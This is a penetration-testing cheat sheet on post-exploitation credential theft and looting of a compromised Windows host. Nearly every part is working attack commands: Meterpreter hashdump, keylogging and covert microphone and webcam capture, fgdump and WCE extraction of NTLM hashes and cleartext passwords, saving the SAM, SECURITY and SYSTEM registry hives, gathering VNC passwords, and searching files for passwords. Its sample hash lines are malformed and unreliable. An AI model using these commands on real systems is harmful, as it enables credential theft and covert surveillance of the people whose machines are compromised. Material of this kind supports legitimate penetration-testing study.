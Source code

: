 # Loot Windows

## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.  
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:

```
-h
```

**Dump windows hashes for further analysis**

```
hashdump
```

Keylogger

```
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```

## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until \(and including\) Windows 2003 stored the passwords in LAN Manager \(LM\) and NT LAN Manager \(NTLM\). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM &gt;= Windows 2003**

**NTLM &gt; Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` \(`locate fgdump.exe` on kali\) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it.

### Windows Credencial Editor \(WCE\)

WCE can steal NTLM passwords from memory in cleartext!  
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this

```
wce32.exe -w
```

### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.  
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

[http://www.tarasco.org/security/pwdump\_7/](http://www.tarasco.org/security/pwdump_7/)

## VNC

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## Tcp-dump on winfows

You can use meterpreter to easily take a tcp-dump, like this:

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Search for interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```

### Search for \*More\* interesting files \(passwords\)

The following prints out the relative file name/path and line number \(/n\) in a recursive \(/s\), case insensitive \(/i\) search for the string password \(password\) in all files \(\*\), ignoring files with non-printable characters \(/p\)

```
#from c://
findstr /n /s /i /p password * 
```

## References

This is a great post  
[https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)

http://www.ericmmartin.com/finding-files-containing-a-certain-value/


